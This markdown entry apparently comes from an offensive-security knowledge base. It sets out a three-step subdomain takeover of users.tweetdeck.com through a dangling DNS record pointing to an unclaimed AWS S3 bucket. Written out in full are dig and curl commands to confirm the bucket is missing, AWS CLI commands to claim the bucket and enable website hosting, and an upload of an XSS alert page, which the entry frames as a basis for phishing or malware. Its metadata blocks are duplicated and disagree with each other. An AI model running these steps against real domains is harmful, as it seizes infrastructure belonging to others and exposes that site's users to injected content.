

---
tags:
  - subdomain-takeover
  - aws-s3
  - dns-misconfig
type: attack_chain
tools:
  - '[[tools/AWS-CLI]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - AWS
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Detect-Dangling-AWS-S3-Subdomain]]'
  - '[[procedures/Claim-Unconfigured-AWS-S3-Bucket]]'
  - '[[procedures/Demonstrate-Takeover-by-Hosting-Content-on-S3]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T05:32:31.124Z'
description: >-
  A multi-stage attack exploiting a dangling DNS record pointing to an unclaimed
  AWS S3 bucket, allowing full subdomain control for hosting malicious content.
skill_level: intermediate
impact_level: high
id: 71409765-2c6b-4e77-90df-6cd229b260a0
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
---
id: 123e4567-e89b-12d3-a456-426614174000
name: Subdomain Takeover via Dangling AWS S3 Bucket on users.tweetdeck.com
type: attack_chain
description: "A multi-stage attack exploiting a dangling DNS record pointing to an unclaimed AWS S3 bucket, allowing full subdomain control for hosting malicious content."
verified: false
submitted: false
step_count: 3
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Detect-Dangling-AWS-S3-Subdomain]], [[procedures/Claim-Unconfigured-AWS-S3-Bucket]], [[procedures/Demonstrate-Takeover-by-Hosting-Content-on-S3]]
techniques: [[Exploit Public-Facing Application]]
tactics: [[Initial Access]]
tags: subdomain-takeover, aws-s3, dns-misconfig
platforms: Web, AWS
tools: [[tools/AWS-CLI]]
---

# Subdomain Takeover via Dangling AWS S3 Bucket on users.tweetdeck.com

Multi-stage attack chain demonstrating a complete subdomain takeover workflow via AWS S3 misconfiguration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/AWS-CLI]]

### Target Environment

- AWS Cloud platform
- DNS resolution access
- AWS account with S3 permissions

### Initial Access Requirements

- Public DNS query access
- AWS credentials for bucket creation

## Detailed Attack Procedures

### Step 1: Detect Dangling Subdomain
procedure: [[procedures/Detect-Dangling-AWS-S3-Subdomain]]

**Objective**: Identify if the target subdomain resolves to an AWS S3 endpoint without an existing bucket, indicating a takeover opportunity.

**Instructions**: Resolve the DNS for the target subdomain using [[commands/dig-resolve-subdomain]] to check for S3 pointers:

```bash
dig users.tweetdeck.com
```

Observe the CNAME or A record pointing to s3-website-us-east-1.amazonaws.com. Then, attempt to access the URL directly in a browser or with curl to confirm the 'NoSuchBucket' error:

```bash
curl -I http://users.tweetdeck.com
```

**Expected Output**: DNS resolution shows S3 endpoint; HTTP response includes AWS error XML for missing bucket.

**Success Indicators**:
- CNAME to S3 website endpoint detected
- 'NoSuchBucket' error page returned

### Step 2: Claim Unconfigured AWS S3 Bucket
procedure: [[procedures/Claim-Unconfigured-AWS-S3-Bucket]]

**Objective**: Register the unclaimed S3 bucket matching the subdomain name to gain control over the endpoint.

**Instructions**: Use AWS CLI to create the bucket with the exact name derived from the subdomain, ensuring it's in the correct region (e.g., us-east-1 for website hosting):

```bash
aws s3 mb s3://users.tweetdeck.com --region us-east-1
```

Configure the bucket for static website hosting if needed:

```bash
aws s3 website s3://users.tweetdeck.com --index-document index.html --region us-east-1
```

**Expected Output**: Bucket creation confirmation; no errors on subsequent access attempts.

**Success Indicators**:
- Bucket successfully created
- Subdomain now resolves to your controlled bucket without errors

### Step 3: Demonstrate Takeover by Hosting Content
procedure: [[procedures/Demonstrate-Takeover-by-Hosting-Content-on-S3]]

**Objective**: Upload and serve arbitrary content to prove full control, simulating attacks like XSS or phishing.

**Instructions**: Create a simple HTML PoC file (e.g., XSS.html) with alert('XSS via Takeover'); then upload it to the bucket:

```bash
echo '<script>alert("XSS via Takeover")</script>' > XSS.html
aws s3 cp XSS.html s3://users.tweetdeck.com/XSS.html --region us-east-1
```

Access the file via the subdomain to verify:

```bash
curl http://users.tweetdeck.com/XSS.html
```

**Expected Output**: HTML content served successfully from the subdomain.

**Success Indicators**:
- Custom content loads on the subdomain
- Potential for injecting scripts visible in browser

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed dangling S3 subdomain
2. Claimed ownership of the unconfigured bucket
3. Demonstrated control by hosting XSS PoC, enabling phishing or malware

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
